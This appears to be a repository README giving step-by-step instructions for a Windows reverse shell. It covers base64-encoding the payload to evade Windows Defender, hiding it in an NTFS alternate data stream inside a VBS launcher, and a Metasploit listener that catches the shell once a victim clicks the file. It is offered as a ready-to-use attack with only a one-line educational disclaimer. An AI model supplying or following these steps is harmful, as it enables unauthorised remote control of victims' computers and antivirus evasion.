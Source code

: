 # Windows Reverse Shell

Once run, a reverse shell from your Windows Machine gets established to the Attacking Machine.
The code for the reverse shell is in `code.txt`. The rest is required to hide it from Windows Defender. For that a file to execute the reverse shell is needed (`launch.vbs`). We also have to encode the code for the reverse shell. After that we hide the code for our payload within our launch file using alternative datastreams on ntfs.

## Requirements
- attacker machine with metasploit framework installed (e.g. Kali Linux)
- windows machine

## Prepare
1. Edit `code.txt` and replace the ip address with the ip address of the attacking machine.
   Keep in mind that the windows machine has to be able to reach you. You have to be on the same local network or it has to be a public ip address.
2. Encode the `code.txt` file using base64 (UTF-16LE) and replace `<CODE>` in your `payload.bat` with the encoded code.
3. Hide the `payload.bat` in your launch.vbs using alternative datastreams. Using the ntfs filesystem as Windows does you can do it like that: `type payload.bat launch.vbs:payload.bat`
4. You can delete the `code.txt` and `payload.bat` files and get the `launch.vbs` on the windows machine.

## Attack
1. On Attacker machine
```shell
mfconsole
use exploit/multi/handler
set payload windows/shell_reverse_tcp
set LHOST <attacker ip address>
set LPORT 4444
exploit
```
2. Windows user execute launch.vbs (e.g. by clicking on it)

---

*Diclaimer: only for educational purposes*
